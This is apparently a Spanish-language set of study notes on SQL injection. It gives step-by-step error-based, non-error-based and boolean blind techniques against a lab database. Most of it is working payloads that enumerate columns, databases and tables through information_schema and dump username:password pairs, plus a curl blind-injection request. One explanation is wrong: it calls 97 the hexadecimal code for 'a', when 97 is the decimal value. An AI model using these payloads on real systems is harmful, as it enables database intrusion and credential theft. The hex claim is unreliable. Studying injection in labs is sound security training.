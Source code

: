 -----
+ tags: #sql #sqli #sqlmap #web 
-----

----------------------==Información==--------------------
La idea es insertar código en la cosulta a la base de datos. Si la consulta se hace así: '$id', hará falta insertar una comilla para escapar,
sin embargo **si no hay comillas no hará falta!!!**


# Error Based

> Las inyecciones Error Based permiten ver el error en la query al realizar la inyección SQL.

## Procedimiento:
### Descubrir el número de columnas
	?id=3' order by 100-- -
	?id=3' order by 50-- -
	?id=3' order by 20-- -
	?id=3' order by 10-- -
	?id=3' order by 1-- -
*Cuando hagamos coincidir el número de columnas con el real, la respuesta cambiará*

### Seleccionar las columnas que existen
- Lo que buscamos aquí es seleccionar las columnas que hayan para poder sustituir más tarde dichos valores por otros.

*En el siguiente ejemplo simulamos que hemos encontrado 5 columnas:*

	?id=3' union select 1,2,3,4,5-- -

*Si utilizando la query anterior no vemos nada raro, podemos cambiar el 3 por un valor que no exista en la base de datos:*

	?id=123456' union select 1,2,3,4,5-- -


### Extracción de la información
Ahora nos queda extraer la información, se pueden probar varias cosas:


#### Base de datos en uso

	database()


#### Ver bases de datos existentes

	schema_name from information_schema.schemata 

*SI hay mas bases de datos que columnas por las que filtrar, no podrán mostrarse todas las bases de datos de esta manera. Ver Alternativa*

#### Ver bases de datos existentes (Alternativa)

	schema_name from information_schema.schemata limit 0,1
	schema_name from information_schema.schemata limit 1,1
	schema_name from information_schema.schemata limit 2,1

#### Ver bases de datos existentes (Alternativa 2 (Más recomendable))
	?id=123456' union select group_concat(schema_name) from information_schema.schemata-- -


#### Ver tablas existentes
	?id=123456' union select group_concat(table_name) from information_schema.tables where table_schema='Hack4U'-- -

	(Respuesta: users)

#### Ver columnas existentes
	?id=123456' union select group_concat(column_name) from information_schema.columns where table_schema='Hack4U' and table_name='users'-- -

	(Respuesta: id,username,password)

#### Ver columnas existentes (Alternativa si la base de datos es la que esta en uso)
	?id=123456' union select group_concat(column_name)


#### Ver valores de las columnas
	?id=123456' union select group_concat(username) from Hack4U.users-- -
	?id=123456' union select group_concat(username,0x3a,password) from Hack4U.users-- -

#### Ver valores de las columnas (Alternativa si la base de datos es la que esta en uso)
	?id=123456' union select group_concat(username) from users-- -
	?id=123456' union select group_concat(username,0x3a,password) from users-- -



# Non-Error Based

> Las inyecciones Non-Error Based no permiten ver el error en la query al realizar la inyección SQL.

## Procedimiento:
### Descubrir el número de columnas
	?id=3' order by 100-- -
	?id=3' order by 50-- -
	?id=3' order by 20-- -
	?id=3' order by 10-- -
	?id=3' order by 1-- -
	
*Cuando hagamos coincidir el número de columnas con el real, la respuesta cambiará*



# Blind 

## Boolean Based

	curl -s -I -X GET "http://localhost/searchUsers.php" -G --data-urlencode "id=9 or (select(select ascii(substring(username,1,1)) from users where id = 1)=97)"

97 es 'a' en hexadecimal. El primer usuario es admin y por lo tanto el primer caracter es 'a', por lo que la respuesta será código de estado 200, 1, TRUE...











